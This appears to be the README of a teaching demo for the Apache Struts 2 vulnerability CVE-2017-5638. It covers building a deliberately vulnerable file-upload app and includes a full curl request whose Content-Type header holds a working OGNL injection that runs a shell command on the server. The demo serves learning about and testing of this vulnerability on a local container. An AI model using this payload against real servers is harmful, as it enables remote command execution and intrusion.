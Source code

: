 # SC3010 Struts 2 Vulnerability (CVE-2017-5638) demo

## Install and Start the server
Note: Please make sure your maven is running on java 8

1. Navigate to the Maven project
```
cd struts-vuln-demo
```
2. Build a Maven package
```
mvn clean package -DskipTests
```
3. Running directly on local machine
```
mvn jetty:run
```
4. Running on a container
```
docker build -t struts-app .
docker run -p 8080:8080 struts-app
```

## Usage
### Normal file upload (through browser)
1. Go to http://localhost:8080/struts-vuln-demo-1.0-SNAPSHOT/example/FileUpload.action (container) or http://localhost:8080/example/FileUpload.action (local)
2. Upload file. You should be able to view the SHA256 hash of the file, filename, and ContentType of the file
### Vulnerability test (using curl, please try to run this test with a containerized server for your own safety)
```
curl --location 'http://localhost:8080/struts-vuln-demo-1.0-SNAPSHOT/example/doUpload.action' \
--header 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
--header 'Accept-Language: en-US,en;q=0.9' \
--header 'Connection: keep-alive' \
--header 'Content-Type: ${(#_="multipart/form-data").(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context["com.opensymphony.xwork2.ActionContext.container"]).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd="whoami").(#iswin=(@java.lang.System@getProperty("os.name").toLowerCase().contains("win"))).(#cmds=(#iswin?{"cmd.exe","/c",#cmd}:{"/bin/bash","-c",#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}' \
--header 'Cookie: JSESSIONID=13EC0C929279DC15527C2DC4E96675A0; JSESSIONID=1r1jbgllowar61qciw9v8yih8s' \
--form 'upload=@"/path/to/upload/file"'
```
The response should contain the user running the server process (equivalent to running `whoami` on terminal).

## Analysis, sources, etc.
https://docs.google.com/document/d/1i4Ny7hKPiCtBEydqR1caG-5aE361vGqd_ly_--CWMmU/edit?usp=sharing
